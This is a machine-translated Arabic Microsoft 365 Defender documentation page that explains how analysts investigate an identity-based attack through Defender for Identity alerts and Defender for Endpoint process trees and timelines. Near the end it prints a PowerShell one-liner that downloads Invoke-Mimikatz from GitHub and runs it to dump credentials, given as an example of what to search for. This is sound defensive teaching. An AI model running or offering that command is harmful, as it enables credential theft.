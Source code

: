 ```yaml
---
title: مثال عن هجوم مستند إلى الهوية
description: خطوة عبر مثال لتحليل هجوم مستند إلى الهوية.
keywords: الأحداث، التنبيهات، التحقق، الارتباط، الهجوم، الأجهزة، الأجهزة، المستخدمون، الهويات، الهوية، علبة البريد، البريد الإلكتروني، 365، microsoft، m365، الاستجابة للحوادث، هجوم عبر الإنترنت
search.product: eADQiWindows 10XVcnh
ms.prod: m365-security
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
f1.keywords:
- NOCSH
ms.author: dansimp
author: dansimp
ms.localizationpriority: medium
manager: dansimp
audience: ITPro
ms.collection:
- M365-security-compliance
- m365initiative-m365-defender
ms.topic: conceptual
search.appverid:
- MOE150
- MET150
ms.technology: m365d
ms.openlocfilehash: 6d62e1127eabb401a6af77aa1bbf073e4cfced17
ms.sourcegitcommit: a4729532278de62f80f2160825d446f6ecd36995
ms.translationtype: MT
ms.contentlocale: ar-SA
ms.lasthandoff: 03/31/2022
ms.locfileid: "64570096"
---
```

# <a name="example-of-an-identity-based-attack"></a>مثال عن هجوم مستند إلى الهوية

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]

**ينطبق على:**
- Microsoft 365 Defender

Microsoft Defender for Identity المساعدة في الكشف عن المحاولات الضارة التي تؤذي الهويات في مؤسستك. نظرا لأن Defender for Identity يتكامل مع Microsoft 365 Defender، يمكن لمحللين الأمان رؤية التهديدات القادمة من Defender for Identity، مثل محاولات رفع امتياز Netlogon المشتبه بها.

## <a name="analyzing-the-attack-in-microsoft-defender-for-identity"></a>تحليل الهجوم في Microsoft Defender for Identity

Microsoft 365 Defender للمحللين بتصفية التنبيهات حسب مصدر الكشف على علامة **التبويب** تنبيهات في صفحة الأحداث. في المثال التالي، تمت تصفية مصدر الكشف إلى **Defender for Identity**. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png" alt-text="تصفية مصدر الكشف في Microsoft Defender for Identity" lightbox="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png":::

عند **تحديد تنبيه هجوم** تجاوز الهاشش المشتبه به، يتم إرساله إلى صفحة في Microsoft Defender for Cloud Apps تعرض معلومات أكثر تفصيلا. يمكنك دائما معرفة المزيد حول تنبيه أو هجوم **عن** طريق تحديد Mer informasjon حول نوع التنبيه هذا لقراءة وصف لاقتراحات الهجوم والعد [](/defender-for-identity/lateral-movement-alerts#suspected-overpass-the-hash-attack-kerberos-external-id-2002).
 
:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-alert-example.png" alt-text="تنبيه هجوم تجاوز الهاشش المشتبه به" lightbox="../../media/first-incident-path-identity/first-incident-identity-alert-example.png"::: 

## <a name="investigating-the-same-attack-in-microsoft-defender-for-endpoint"></a>التحقق من الهجوم نفسه في Microsoft Defender لنقطة النهاية

بدلا من ذلك، يمكن للمحلل استخدام Defender for Endpoint لمعرفة المزيد حول النشاط على نقطة نهاية. حدد الحادث من قائمة انتظار الحادث، ثم حدد **علامة التبويب** تنبيهات. ومن هنا، يمكنهم تحديد مصدر الكشف أيضا. إن مصدر الكشف المسمى الكشف التلقائي والاستجابة على النقط النهائية هو "كشف نقطة النهاية والاستجابة لها"، وهو Defender لنقطة النهاية. من هنا، يختار المحلل تنبيها تم اكتشافه بواسطة الكشف التلقائي والاستجابة على النقط النهائية.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png" alt-text="الكشف عن نقطة النهاية والاستجابة لها في مدخل Microsoft Defender لنقطة النهاية" lightbox="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png":::

تعرض صفحة التنبيه معلومات مختلفة ذات صلة مثل اسم الجهاز الذي تم التأثير عليه واسم المستخدم حالة التحقيق التلقائي وتفاصيل التنبيه. تصف قصة التنبيه تمثيلا مرئيا شجرة العملية. إن شجرة العمليات هي تمثيل هيكلي للعمليات الأصل والطفل المرتبطة بالتنبيه.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png" alt-text="شجرة معالجة تنبيه في Microsoft Defender لنقطة النهاية" lightbox="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png"::: 

يمكن توسيع كل عملية لعرض المزيد من التفاصيل. التفاصيل التي يمكن للمحلل رؤياها هي الأوامر الفعلية التي تم إدخالها كجزء من برنامج نصي ضار وعناوين IP للاتصال الصادر ومعلومات مفيدة أخرى.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-process-details.png" alt-text="تفاصيل العملية في مدخل Microsoft Defender لنقطة النهاية" lightbox="../../media/first-incident-path-identity/first-incident-identity-process-details.png":::
 
من خلال تحديد **رؤية في المخطط الزمني**، يمكن للمحلل التنقل لأسفل لتحديد الوقت المحدد للخطر. 

Microsoft Defender لنقطة النهاية الكشف عن العديد من الملفات والبرامج النصية الضارة. ومع ذلك، نظرا للعديد من الاستخدامات المشروعة للاتصالات الصادرة و PowerShell ونشاط سطر الأوامر، قد يعتبر بعض النشاط نشاطا غير جيد حتى ينشئ ملفا أو نشاطا ضارا. وبالتالي، فإن استخدام المخطط الزمني يساعد المحللين على وضع التنبيه في سياق مع النشاط المحيط لتحديد المصدر الأصلي للهجوم أو وقته الذي يحجبه نظام الملفات المشترك ونشاط المستخدم. 

لاستخدام المخطط الزمني، سيبدأ المحلل في وقت الكشف عن التنبيهات (باللون الأحمر) ويمرر للأسفل إلى الخلف في الوقت المناسب لتحديد وقت بدء النشاط الأصلي الذي أدى إلى النشاط الضار فعليا. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-start-time.png" alt-text="وقت بدء المحلل للكشف عن التنبيهات" lightbox="../../media/first-incident-path-identity/first-incident-identity-start-time.png"::: 

من المهم فهم النشاط الشائع وتمييزه مثل اتصالات Windows Update، واتصالات Windows حركة تنشيط البرامج الموثوق بها، والاتصالات الشائعة الأخرى بمواقع Microsoft، ونشاط الإنترنت من جهة خارجية، ونشاط Microsoft Endpoint Configuration Manager، والنشاط غير ذلك من الأنشطة غير المشبوهة النشاط. إحدى الطرق للتمييز هي استخدام عوامل تصفية المخطط الزمني. هناك العديد من عوامل التصفية التي يمكنها تمييز نشاط معين أثناء تصفية أي شيء لا يريد المحلل عرضه. 

في الصورة أدناه، تمت تصفية المحلل لعرض أحداث الشبكة وا العملية فقط. تسمح معايير التصفية هذه للمحلل برؤية اتصالات الشبكة والعمليات المحيطة بالحدث حيث المفكرة اتصالا باستخدام عنوان IP، وقد رأيناه أيضا في شجرة العمليات. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-notepad.png" alt-text="كيفية المفكرة المستخدمين في إجراء اتصال ضار من الخارج" lightbox="../../media/first-incident-path-identity/first-incident-identity-notepad.png"::: 

في هذا الحدث تحديدا، المفكرة المستخدمين في إجراء اتصال ضار بالداخل. ومع ذلك، غالبا ما يستخدم iexplorer.exe لإنشاء اتصالات لتنزيل تحميل ضار لأن عمليات iexplorer.exe تعتبر عادة نشاط مستعرض ويب عاديا.

هناك عنصر آخر يجب البحث عنه في المخطط الزمني وهو استخدام PowerShell للاتصالات الصادرة. سيبحث المحلل عن اتصالات PowerShell `IEX (New-Object Net.Webclient)` ناجحة بأوامر مثل متبوع باتصال وارد لموقع ويب يستضيف ملفا ضارا. 

في المثال التالي، تم استخدام PowerShell لتنزيل Mimikatz وتنفيذه من موقع ويب:

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```
يمكن للمحلل البحث بسرعة عن الكلمات الأساسية عن طريق كتابة الكلمة الأساسية في شريط البحث لعرض الأحداث التي تم إنشاؤها باستخدام PowerShell فقط. 

## <a name="next-step"></a>الخطوة التالية

راجع [مسار التحقيق في التصيد](first-incident-path-phishing.md) الاحتيالي.

## <a name="see-also"></a>راجع أيضًا

- [نظرة عامة حول الأحداث](incidents-overview.md)
- [إدارة الأحداث](manage-incidents.md)
- [التحقيق في الأحداث](investigate-incidents.md)
